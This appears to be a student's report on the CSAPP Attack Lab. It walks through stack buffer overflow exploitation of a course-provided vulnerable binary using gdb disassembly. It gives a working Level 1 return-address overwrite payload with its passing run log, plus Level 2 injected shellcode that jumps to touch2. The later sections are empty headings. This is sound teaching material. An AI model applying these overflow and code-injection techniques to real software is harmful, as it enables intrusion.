

###  Table Of Content

- [Part I: Code Injection Attacks](#part-i-code-injection-attacks)
	- [1.1 Level 1](#11-level-1)
	- [1.2 Level 2](#12-level-2)
	- [1.3 Level 3](#13-level-3)
	
- [Part II: Return-Oriented Programming](#part-ii-return-oriented-programming)
	- [2.1 Level 2](#21-level-2)
	- [2.2 Level 3](#22-level-3)


# 	Attack Lab Report

In this lab, it used the vulnerability of function `Gets()` to do the correspond attacks, where it never check the input string length to trigger the buffer overflow attack.

```c
1 unsigned getbuf() 
2 { 
3 	char buf[BUFFER_SIZE]; 
4 	Gets(buf); 
5 	return 1; 
6 }
```

Specifically, this lab uses two types of attack : `Code Injection` and `Return-Oriented Programming`

Here is the summary of lab phases: 

| Phase  | Program   | Level  |	Method	| Functions|
| :----: |:--------:| :----: | :------: | :-------:|
| 1      	| CTARGET |   1     |      CI       |  Touch1  |
| 2      	| CTARGET |   2     |      CI       |  Touch2  |
| 3      	| CTARGET |   3     |      CI       |  Touch3  |
| 4      	| RTARGET |   2     |     ROP     |  Touch2  |
| 5      	| RTARGET |   3     |     ROP     |  Touch3  |

**where CI = Code Injection; ROP = Return-Oriented Programming.**


<p align="center">Figure 1. Stack Layout in  Memory</p></br>


<p align="center">Figure 2. Code Injection Attack</p></br>

In the code injection attack, the attacker just filled out the caller frame in the stack frame until it reaches the return address section (**shown in Figure 1**). Then the attacker will utilize the vulnerable function like `gets()`, where it never checks the length of the input string, to overwrite the content in the `ret` area and replace it with the address that the attacker intends to reach.(**shown in Figure 2**)

When it go the function that attack would like to go, then the next operation will control by attacker and they can do whatever they want.

##	Part I: Code Injection Attacks

### 1.1 Level 1

In this part, I used the vulnerability of the function `unsigned getbuf()` to get the **CTarget**  to execute the code for `touch 1`, when `getbuf()` executes its return statement, rather than executes the function of `test()`.

The code of `test`:

```c
1 void test() 
2 { 
3	int val;
4	val = getbuf();
5	printf("No exploit);.
6 }
```

The code of `touch 1`:

```c
1 void touch1() 
2 {
3	vlevel = 1; / * Part of validation protocol * / 
4 	printf("Touch1!: You called touch1()\n");
5 	validate(1);
6 	exit(0);
7 }
```

Note that your exploit string may also corrupt parts of the stack not directly related to this stage, but this will not cause a problem, since `touch1` causes the program to exit directly.

In this lab, we don't need to injection any code into the program, rather, all the thing we need to do is by using the vulnerability of `getbuf()` to change target the address of `ret` in the stack frame of `getbuf()`, where replace the address of `test()` with `touch1()`.

Just like what we saw in the description of **code injection attack**, the thing we need to do is overwitten the return address of `getbuf()` to make it not jump back to the funciton `test()`. Rather, jump to the function `touch1()`.

For more detail, let's look the assembly code of `getbuf()` (In `ctarget`):

```asm
(gdb) disas getbuf 
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
End of assembler dump.
```

As the code shown us, the function `getbuf()` request 0x28 (40 in Decimal) bytes spaces for the input buffer, and then return back the to the `test()`. Note that there is no arguement passed into `getbuf()`. Thus, we just need to make sure that if our input string longer than 40, then we can overwrite the return area of `getbuf()`, where ,by overwrite the return area of `getbuf()`, the program will not jump back to `test()`, but the address we point to. Since we are using 64-bit machine, **the length of return address should be 8 bytes.** Also, we pass the target address as a data, and thus it should follow the **order of little endian**.

For better understand the layout of stack frame, we firstly print the stack frame range of `getbuf()`, where it prints the address of `%rsp` before and after called `Gets()`:

```bash
(gdb) i r rsp
rsp            0x5561dca0	0x5561dca0
(gdb) ni
14	in buf.c
(gdb) i r rsp
rsp            0x5561dc78	0x5561dc78
```
Then, we use a legal but distinguishable input string as input string to `ctarget` and we print the layout of the stack frame for `getbuf` after call `Gets()`.

```bash
01 02 03 04 05 06 07 08 
11 12 13 14 15 16 17 18
21 22 23 24 25 26 27 28
31 32 33 34 35 36 37 38
41 42 43 44 45 46 47
```
We will get the layout like this:


Here is the assembly code for `test()`:

```asm
(gdb) disas test
Dump of assembler code for function test:
   0x0000000000401968 <+0>:	sub    $0x8,%rsp
   0x000000000040196c <+4>:	mov    $0x0,%eax
   0x0000000000401971 <+9>:	callq  0x4017a8 <getbuf>
   0x0000000000401976 <+14>:	mov    %eax,%edx ; the place should have jumped back to
   0x0000000000401978 <+16>:	mov    $0x403188,%esi
   0x000000000040197d <+21>:	mov    $0x1,%edi
   0x0000000000401982 <+26>:	mov    $0x0,%eax
   0x0000000000401987 <+31>:	callq  0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:	add    $0x8,%rsp
   0x0000000000401990 <+40>:	retq   
End of assembler dump.
```

Moreover, we can get the adderss of `touch1()` by seeing its assembly code, which is `0x4017c0`.

```asm
(gdb) disas touch1 
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	sub    $0x8,%rsp ; the begin address of touch1()
   0x00000000004017c4 <+4>:	movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:	callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    $0x1,%edi
   0x00000000004017dd <+29>:	callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    $0x0,%edi
   0x00000000004017e7 <+39>:	callq  0x400e40 <exit@plt>
End of assembler dump.
(gdb) 
```

Here is our code injection payload:

```
00 00 00 00 00 00 00 00 <- the first position of padding ($rsp position after called Gets() )
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 <- the last position of padding
c0 17 40 00 00 00 00 00 <- the postion of we want to overwrite ($rsp position before called Gets() )
```

Finally, we need to use the program `hex2raw` to convert our input string to the real binary attach string.

we have successfully made the program jump to `touch 1()` in the final.

```bash
➜  ~/cmu-15-213-CSAPP3E-lab/3.Attack_lab/target1 ./hex2raw < solutions/CI_Level1.txt | ./ctarget -q 
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
	00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00 
```

### 1.2 Level 2

In this section, we are required to redirect the address of `touch2` just like what we did above. What's more, we also need to inject code as part of the exploit string, where we need to pass our cookie value as the variable to the `touch2()`. 

```c
void touch2(unsigned val) {
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

As the code is shown above, to pass this phase, not only we need to redirect to the `touch2` and inject the value in it, but also the value we pass should be the cookie value to make sure the `touch2()` call `validate(2)`.

Thus, in CI-Level2, we have two main goal

+ redirect the program to the `touch2()`.
+ Pass parameter of cookie to `touch2()` by injecting exploit string.

Here is the assemly code of `touch2`:

```asm
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

First, we can see the the first address of `touch2` should be `0x4017ec`. Then, we also find that the variable we pass to `touch2` should be stored at `$rdi`.
 
To make `$rdi` store our cookie, we need to inject the exploit string, which contains our cookie value, to the input string. Specifically, we need to write our own assembly code, and make rdi store cookie value and then jump to `touch2()`. Then, make this code as the part of exploit string.

The assemly code we made just like below:

```asm
movq  $0x59b997fa,%rdi ; make rdi store our cookie value
pushq $0x4017ec ; push the address of touch 2 into the stack
retq ; return to touch2()
```
After that:

1. we use `gcc -c injection_code.s` to generate object file
2. then use `objdump -d injection_code.o > injection_code.txt` reverse this object file to generate the `Hexadecimal Code`.

```asm
injection_code.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq  ; use return instruction to jump to tourch2

```
**We will use this hexadecimal code as part of the exploit string to mislead the program into thinking that these input characters are assembly instructions，where it is the code we will inject into the program.**

Next, our goal is how to arrange the layout of the input exploit string to mislead the program to do the behavior that we expect.


### 1.3 Level 3


##	Part II: Return-Oriented Programming

###  2.1 Level 2

###  2.2 Level 3
